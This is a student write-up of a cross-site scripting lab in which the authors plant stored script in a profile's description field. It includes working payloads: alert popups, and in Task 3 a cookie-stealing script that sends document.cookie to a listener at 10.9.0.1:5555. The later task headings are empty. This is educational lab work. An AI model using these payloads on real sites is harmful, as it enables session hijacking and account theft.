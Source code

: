 ## Cross-Site Scripting Attack Lab

### Task 1
In this task we're asked to inject javascript code into a user's profile such that when that profile is loaded, an alert popup will show up with the message "XSS". <br>
In order to do so, firstly, we need to login into an user account. We chose Alice.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049736125780070481/image.png">

Then, we changed her Brief Description section to contain our javascript code: `<script>alert('XSS');</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154406633533/image.png">

Upon submiting the edit form, we're met with the expected popup, since the page reloads. Because the privacy of Alice's Brief Description section is set to public, any user that loads her profile should be met with the exact same popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154767347732/image.png">

### Task 2

With a small change to our code, we can display the user's cookies, instead of a random message: `<script>alert(document.cookie);</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742743523578026/image.png">

Yet again, any user that loads this page will be met with the popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742660442796092/image.png">

### Task 3

Because displaying the cookies to the user is not useful to us (it's beyond useless, since it actually warns the user that their cookies are under attack), we want to silently retrieve them. <br>
This can be achieved with a small piece of javascript code that creates a new `<img>` html element with its source pointing to a server we control, created using netcat: `<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>` <br>
When the browser tries to retrieve this image, it will send a GET request to our server with the cookie information attached.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744046450548736/image.png">

As you can see, the browser sent the GET request, and it got to our server.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744563364954122/image.png">

### Task 4

## Week 10 CTF Challenge
### Challenge 1

### Challenge 2

